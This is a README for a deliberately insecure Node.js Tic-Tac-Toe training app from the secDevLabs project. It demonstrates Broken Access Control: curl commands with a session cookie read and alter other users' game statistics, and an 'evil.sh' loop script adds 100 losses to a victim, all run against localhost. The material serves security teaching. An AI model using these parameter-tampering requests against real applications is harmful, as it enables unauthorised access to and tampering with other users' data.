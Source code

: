 # Tic-Tac-Toe

<p align="center"><img  src="images/a5-banner.png"/></p>

Tic-Tac-Toe is a simple Nodejs web application that contains an example of a Broken Access Control vulnerability and its main goal is to describe how a malicious user could exploit it.

## Index

- [Definition](#what-is-broken-access-control)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Broken Access Control?

Restrictions on what authenticated users are allowed to do are often not properly enforced. Attackers can exploit these flaws to access unauthorized functionality and/or data, such as access to other users' accounts, view sensitive files, modify other users’ data, change access rights, etc.

The main goal of this app is to discuss how **Broken Access Control** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][docker install] and [Docker Compose][docker compose install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh

cd secDevLabs/owasp-top10-2021-apps/a1/tictactoe

```

```sh

make install

```

Then simply visit [http://localhost.:10005][app] ! 😆

## Get to know the app 🕹

To properly understand how this application works, you can follow this step:

- Try registering a user
- Sign in
- Play the game
- See your statistics

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

#### Lack of user cookie validation allows for an attacker to get other users' game statistics

### 👀

In order to better understand how the application handles its data, two users, `user1` and `user2`, can be created using the web interface by visiting [http://locahost.:10005/create](http://localhost:.10005/create) as exemplified below:

<p  align="center"><img  src="images/attack0.png"/></p>

After logging in as `user1` and playing a few times, his/her statistics can be checked by visiting [http://localhost.:10005/statistics](http://localhost.:10005/statistics), as the following picture shows:

<p  align="center"><img  src="images/attack1.png"/></p>

To check how this information is being retrieved form the server, an attacker could use Developer Tools from Firefox using `Ctrl + Shift + E` or `Command + Option + E` on a Mac, as showed bellow:

<p  align="center"><img  src="images/attack3.png"/></p>

You can replicate this GET by using the following curl command (use your own `tictacsession` token):

```sh
curl -s 'GET' -b 'tictacsession=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDcyODg2LCJleHAiOjE1NjM0NzY0ODZ9.ESLVZ9bbfUbUdFBFRCzxGTPICuaEWdGLxrvWykEmhNk' 'http://localhost.:10005/statistics/data?user=user1'
```

```json
{
  "chartData": [
    { "y": 46.15384615384615, "label": "Wins" },
    { "y": 15.384615384615385, "label": "Ties" },
    { "y": 38.46153846153846, "label": "Loses" }
  ],
  "numbers": { "games": 13, "wins": 6, "ties": 2, "loses": 5 }
}
```

### 🔥

As this AJAX request is being made passing the username as a URL parameter, it may indicate that only this parameter is being used to verify the permission to get the data. To check this, using the same `tictacsession`, an attacker could replace `user1` to another known user, as `user2` for example:

```sh
curl -s 'GET' -b 'tictacsession=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDcyODg2LCJleHAiOjE1NjM0NzY0ODZ9.ESLVZ9bbfUbUdFBFRCzxGTPICuaEWdGLxrvWykEmhNk' 'http://localhost.:10005/statistics/data?user=user2'
```

```json
{
  "chartData": [
    { "y": 100, "label": "Wins" },
    { "y": 0, "label": "Ties" },
    { "y": 0, "label": "Loses" }
  ],
  "numbers": { "games": 1, "wins": 1, "ties": 0, "loses": 0 }
}
```

This fact represents a `Broken Access Control` vulnerability, allowing an attacker to see every known user's private statistics.

#### Lack of user cookie validation allows for an attacker to manipulate user statistics

### 👀

Using the same methodology, an attacker could now check what the application does when a game finishes and tries to store the result. Analyzing the browser inspector once again reveals that a POST was made to the `/game` route, as can be seen in the next image:

<p  align="center"><img  src="images/attack4.png"/></p>

This request is done by using two parameters, `user` and `result`, as shown bellow:

<p  align="center"><img  src="images/attack5.png"/></p>

To replicate this POST by using the curl command (use your own `tictacsession` token), you can type the following command:

```sh
curl -s 'POST' -b 'tictacsession=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDc5MzIxLCJleHAiOjE1NjM0ODI5MjF9.SRVz09ZebGa875MilaV2bj4tjAdTWA14JTuArnUDOZM' 'http://localhost.:10005/game' --data-binary 'user=user1&result=win'
```

```json
OK
```

### 🔥

An attacker now could check if, by using another username into this request, he/she could modify other user's statistics. To do so, the parameter `user` is changed into another known user, as `user2` for example:

```sh
curl -s 'POST' -b 'tictacsession=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDc5MzIxLCJleHAiOjE1NjM0ODI5MjF9.SRVz09ZebGa875MilaV2bj4tjAdTWA14JTuArnUDOZM' 'http://localhost.:10005/game' --data-binary 'user=user2&result=win'
```

```json
OK
```

Imagining the worst scenario, an attacker could create a malicious script to send this same request as many times as he/she could, as can be exemplified bellow:

```sh
vi evil.sh
```

```sh
#!/bin/sh
#
# evil.sh - Add 100 losses to an user!

user="user2"
num=100
result="lose"
tictacsession="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDc5MzIxLCJleHAiOjE1NjM0ODI5MjF9.SRVz09ZebGa875MilaV2bj4tjAdTWA14JTuArnUDOZM"

for i in `seq 1 $num`; do
    curl -s 'POST' -b "tictacsession=$tictacsession" 'http://localhost.:10005/game' --data-binary "user=$user&result=$result"
done
```

And run it:

```sh
chmod +x evil.sh && ./evil.sh
```

```sh
OKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOK
```

To check if this attack indeed worked, the malicious user could exploit the previous vulnerability to check `user2` statistics using the following command:

```sh
curl -s 'GET' -b 'tictacsession=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDc5MzIxLCJleHAiOjE1NjM0ODI5MjF9.SRVz09ZebGa875MilaV2bj4tjAdTWA14JTuArnUDOZM' 'http://localhost.:10005/statistics/data?user=user2'
```

```json
{
  "chartData": [
    { "y": 3.6363636363636362, "label": "Wins" },
    { "y": 2.727272727272727, "label": "Ties" },
    { "y": 93.63636363636364, "label": "Loses" }
  ],
  "numbers": { "games": 110, "wins": 4, "ties": 3, "loses": 103 }
}
```

Once again, this fact represents a `Broken Access Control` vulnerability, allowing an attacker to modify every known user's private statistics.

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

- Access other users' private statistics.
- Modify other users' private statistics.

## PR solutions

[Spoiler alert 🚨 ] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?utf8=%E2%9C%93&q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Tic-Tac-Toe%22+)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost.:10005
[secdevlabs]: https://github.com/globocom/secDevLabs
[2]: https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2021-apps/a1/tictactoe
